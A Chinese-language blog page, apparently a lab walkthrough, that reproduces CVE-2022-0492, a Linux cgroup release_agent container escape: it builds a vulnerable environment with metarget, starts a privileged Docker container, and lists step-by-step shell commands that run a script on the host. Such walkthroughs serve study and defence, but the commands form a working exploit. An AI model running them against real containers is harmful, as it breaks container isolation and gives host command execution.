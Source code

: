 ```yaml
---
title: CVE-2022-0492
---
```


<center><h1>CVE-2022-0492</h1><h2>本文作者：一生热爱</h2><br><br></center>

---

## 一、简介

当容器没有开启额外安全措施时，获得容器内root 权限即可逃逸到宿主机

漏洞产品: linux kernel - cgroup

## 二、环境搭建

```bash
git clone https://github.com/brant-ruan/metarget.git
cd metarget/
pip3 install -r requirements.txt
./metarget cnv install cve-2022-0492
```

查看安装的内核版本

<img width="800" src="/img/Snipaste_2022-07-07_21-17-28.png">

## 三、漏洞利用

> 带有 sys_admin 启动 Docker， 关闭 apparmor（否则无法 mount）

```bash
docker run --rm -it --cap-add=SYS_ADMIN --security-opt="apparmor=unconfined" ubuntu:20.04 /bin/bash
```

上面是带有 CAP_SYS_ADMIN 权限的 Docker ，看网上文章不带有 SYS_ADMIN 权限并关闭所有安全防护的 Docker 也是能进行漏洞利用的，但是我并没有成功，进行mount 的时候不会加载 release_agent

进入 Docker 内部，执行如下命令，挂载 cgroup

```bash
mkdir /tmp/testcgroup
mount -t cgroup -o memory cgroup /tmp/testcgroup
mkdir /tmp/testcgroup/x
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```

修改 release_agent 触发逃逸，将 notify_on_release 设置为1，开启 task 进程清空后执行 release_agent 功能

```bash
echo 1 > /tmp/testcgroup/x/notify_on_release
```

创建 release_agent 触发时执行的文件

```bash
touch /cmd
echo '#!/bin/sh' > /cmd
echo "ps -ef >> $host_path/result"  >> /cmd
chmod 777 /cmd
```

修改release_agent ，指向 cmd 文件在宿主机中的路径（上面已经获取了容器根目录在宿主机中的路径）

```bash
echo "$host_path/cmd" > /tmp/testcgroup/release_agent
```

接下来向 x cgroup 节点中输入一个任务，将自己所属的 sh 的pid 写入 cgroup.procs

```bash
sh -c "echo \$\$ >  /tmp/testcgroup/x/cgroup.procs"
```

sh 命令只执行了一个 echo 指令，一瞬间就会结束，那么 x cgroup 节点中就 / 没有任何任务了，触发 notify_on_release 执行 release_agent 指向的 /cmd 文件，内核触发，在容器外执行我们指定的命令，完成逃逸，逃逸成功。

<img width="1000" src="/img/Snipaste_2022-07-07_21-17-37.png">

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年7月7日"
    }
  }
</script>